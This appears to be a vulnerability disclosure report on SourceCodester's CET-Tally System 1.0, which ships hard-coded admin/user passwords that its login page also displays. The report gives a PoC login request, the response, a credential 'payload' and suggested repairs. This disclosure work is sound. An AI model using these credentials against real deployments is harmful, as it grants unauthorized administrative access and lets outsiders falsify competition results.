

# SourceCodester CET-Tally System 1.0 /index.php username= Use of Hard-coded Default Credentials

## Author

- (submitter name pending user confirmation — will be filled from vuldb.txt account at submission time)

## Vendor and Software Links

- https://www.sourcecodester.com/php/18718/cet-tally-system-advanced-college-event-tallying-leaderboard-system-php-and-mysql.html
- https://www.sourcecodester.com/download-code?nid=18718

## Overview

- CET-Tally System (Advanced College Event Tallying & Leaderboard System), version 1.0 (current public download, 2026-11), ships two built-in accounts, `admin`/`admin123` and `user`/`user123`, in three reinforcing ways: the bootstrap code hard-codes the passwords, the shipped database dump pre-seeds both accounts with matching hashes, and the public login page literally prints the credentials on screen. Any deployment that has not manually rebuilt its accounts is fully compromised by anyone who can reach the login form — the credentials are already displayed to them.

## Details

- Vulnerable file: `/index.php` (login handling at :65-79) and `college_tally.sql` (seed data)
- Affected version: 1.0 (current public download, 2026-11)
- Hard-coded bootstrap — on a fresh database the system creates both accounts with factory passwords:

```php
// index.php:40-43
if ($pdo->query("SELECT COUNT(*) FROM users")->fetchColumn() == 0) {
    $admin_pw = password_hash('admin123', PASSWORD_DEFAULT);
    $user_pw  = password_hash('user123', PASSWORD_DEFAULT);
    $pdo->exec("INSERT INTO users (username, password, role) VALUES ('admin', '$admin_pw', 'admin'), ('user', '$user_pw', 'user')");
}
```

- Shipped dump — even without the bootstrap path, the provided `college_tally.sql` pre-seeds the same two accounts with bcrypt hashes that verify against the hard-coded passwords:

```sql
-- college_tally.sql:113-115
INSERT INTO `users` (`id`, `username`, `password`, `role`) VALUES
(1, 'admin', '$2y$10$djVpXWxKWu88AwOSdgg4ce6UCK1ylBmzfPFwl2Dz/LmX1ovkYubVu', 'admin'),
(2, 'user', '$2y$10$nQ3/xujkAu8AyIm9C1QnV.KSaaaAW2v8Po.O6bs2PmyHHcAfguz46', 'user');
```

- Login-page advertisement — the unauthenticated login page renders the credentials under "System Accounts":

```php
// index.php:412-415
<small class="text-muted d-block mb-3 fw-medium">System Accounts</small>
... <span class="badge ...">... admin / admin123</span>
... <span class="badge ...">... user / user123</span>
```
- There is no setup wizard, no first-login forced password rotation, and no rate limiting on the login form (index.php:65-79).

## Description

- Anyone who obtains or downloads this product — or simply opens its login page — is handed full administrative access to every deployment that did not manually re-create its accounts. The `admin` account can create, edit and delete teams and events, enter and tally competition points, and export all data; the `user` account can view the leaderboard and exports. In the system's real use case (a live college event with rankings), an outsider can silently falsify the competition outcome. The exposure also chains into the application's other findings: the admin role unlocks the team-color stored XSS injection endpoint and the CSV export path. Because the passwords are printed on the login page itself, no attacker reconnaissance of any kind is required.

## PoC

- Request — authenticate as admin with the factory password:

```
POST /index.php HTTP/1.1
Host: 127.0.0.1:8141
Content-Type: application/x-www-form-urlencoded

login_submit=1&username=admin&password=admin123
```

- Response (full admin session granted; identical success for `user`/`user123`):

```
HTTP/1.1 302 Found
Set-Cookie: PHPSESSID=g9e5r04cobn362bq1e10ulssuf; path=/
Location: index.php?page=dashboard
```

- The subsequent `GET /index.php?page=dashboard` with the session cookie returns the full admin dashboard (Team/Event management, Live Tally, Manual Points, exports).

## Payload

```
username=admin&password=admin123
```
(`user` / `user123` for the second built-in account)

## Screenshot: credentials advertised on the public login page

The login page itself displays the working default credentials to every unauthenticated visitor ("System Accounts: admin / admin123 · user / user123"). Both pairs were verified live — each POST returns `302 → index.php?page=dashboard` with a full session.



Full evidence log: `poc/F03-default-credentials.txt` (both live login exchanges, code and dump citations).

## Suggested repair

1. Remove the fixed bootstrap passwords: on first run generate a random administrator password, display it once to the installer, and force a change at first login (delete the hard-coded `admin123`/`user123` at index.php:41-42 and the pre-seeded users in `college_tally.sql`).
2. Remove the "System Accounts" hint from the login page (index.php:412-415) — shipped products must never print credentials in the unauthenticated UI.
3. Add login rate limiting / account lockout, and a setup wizard that refuses to serve the application until the default accounts have been replaced.
4. Enforce role separation server-side (already partially present via `$isAdmin`) and audit all privileged actions for a deployment that may still carry the factory accounts — support a one-time migration that disables any account still using a known default hash.

## Dedup note

- NVD: keyword searches for the product's three name variants ("College Event Tallying", "CET-Tally", "College Event Tally") return 0 CVEs (checked 2026-11-09).
- VulDB: no entries exist for this product at all (site searches returned none) — no same-file/parameter/type entry to collide with.
